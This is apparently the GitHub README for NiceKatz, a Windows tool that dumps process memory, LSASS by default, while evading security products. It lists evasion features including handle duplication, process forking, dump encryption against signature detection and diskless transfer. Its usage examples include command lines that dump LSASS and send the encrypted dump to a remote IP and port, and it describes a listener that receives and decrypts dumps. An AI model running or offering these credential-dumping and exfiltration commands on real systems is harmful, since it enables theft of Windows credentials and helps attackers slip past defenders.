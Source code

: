 # NiceKatz - a nice process dumping tool

![🍉](https://cdn.emojidex.com/emoji/seal/watermelon.png "watermelon")

NiceKatz is a process dumping tool which was developed as part of my software development and windows internals studies.
This tool lets you dump the memory of windows process's in couple of different ways and avoids calling suspicious APIs. 

It is well known already that most of the modern security solutions will block any API calls such as OpenProcess that targets sensetive processes(eg. lsass.exe), other then that, direct memory reading of such processes will also flag modern security solutions. If this is not enough, there are also some vendors that detects the signature of the dump file itself, so even if the handle to the process is retrieved, and the memory reading has completed, all of the work will be thrown away once the dump file touches the disk.. 

NiceKatz evades all of the problems mentioned above, and provides more then one way to dump the processe's memory. 

## Features
- Uses handle duplication to avoid direct OpenProcess to the target
- Supports process forking to avoid direct memory reading of the target process
- Can dump ANY process, not only LSASS
- Supports two different dump modes - MiniDumpWriteDump and SilentProcessExit
- Implements MiniDumpWriteDump callback to capture MiniDump information in memory
- Supports dump encryption to avoid dmp file signatures from being detected
- Supports sending dump file remotely without touching the disk
- Cleanup is performed for any OS configuration change
- Provides a controller that can be used as a listener and a decryptor of dump files generated by NiceKatz

## Build instructions
A full visual studio solution is provided, just load it to visual studio and build.
The right build to use is "Release x64". Do not build as x86, it is not supported by this tool.
The build will result in two files - NiceKatz.exe and NiceKatzController.exe

## NiceKatz
This is is the program that performs the actual process dumping, you can use it to dump any process, in two different modes. 
You can use  this program to dump processes, encrypt the dumped process, send it remotlely or write it to disk.  
#### NiceKatz usage:
```
NiceKatz v0.1
        Alon Leviev(@0xDeku)

Mandatory args:
-m Process dump method
        1 = Dump target process by using MiniDumpWriteDump
        2 = Dump target process by using SilentProcessExit(Does not support -r and -e ATM)

Other args:
-e Encrypt output file
-r Send dmp remotly without touching the disk
        <IP_ADDR> The ip address to send the dump to
        <PORT> The port of which to connect to
-p Target process id to dump(Default: LSASS pid)

Examples:
- Dump lsass by using MiniDumpWriteDump and ecrypt the output file:
        NiceKatz.exe -m 1 -e
- Dump PID 1234 by using SilentProcessExit method:
        NiceKatz.exe -m 2 -p 1234
- Dump PID 5678 by using MiniDumpWriteDump, encrypt the dump in memory and send remotly:
        NiceKatz.exe -m 1 -p 5678 -r 10.10.10.10:8888 -e
```

## NiceKatzController
This is the program which you can use to listen for connections arriving from NiceKatz.exe. 
The controller has more capabilities such as: decrypting the process dump stream recived from the socket as well as decrypting a given file genereated by NiceKatz.exe

#### NiceKatzController usage:
```
NiceKatzController
        Alon Leviev(@0xDeku)

Arguments:
-l Listen for connections from remote target machine
-d Decrypt the dump file when recived from the target
-df Decrypt an encrypted dump file by path(Not supported with other arguments)

Examples:
- Listen for connections from remote target and decrypt the recived dump file:
        NiceKatzController.exe -l -d
- Decrypt an encrypted dump file by its path:
        NiceKatzController.exe -df C:\Temp\dump.dmp
```

## Demo

![20220712_215439 (1)](https://user-images.githubusercontent.com/93016131/178572628-bd8985f9-8516-419e-b06a-393b65269791.gif)


## Future development
There is a list of TODOs and I will continue developing this tool in the future.
If you encounter a bug, or want to ask for aditional features, just open an issue on this git repo. 

## Credits 
[@_RastaMouse](https://twitter.com/_rastamouse) for his [article](https://rastamouse.me/duplicating-handles-in-csharp/) on handle duplication
[Asaf Gilboa](https://mobile.twitter.com/asaf_gilboa) for [Lsass Memory Dumps are Stealthier than Ever Before - Part 2](https://www.deepinstinct.com/blog/lsass-memory-dumps-are-stealthier-than-ever-before-part-2)
[m0rv4i](https://twitter.com/m0rv4i) for implmenting MiniDumpWriteDump callback in c# at [SafetyDump](https://github.com/m0rv4i/SafetyDump)
[Bill Demirkapi](https://twitter.com/BillDemirkapi) for [process forking](https://billdemirkapi.me/abusing-windows-implementation-of-fork-for-stealthy-memory-operations/)
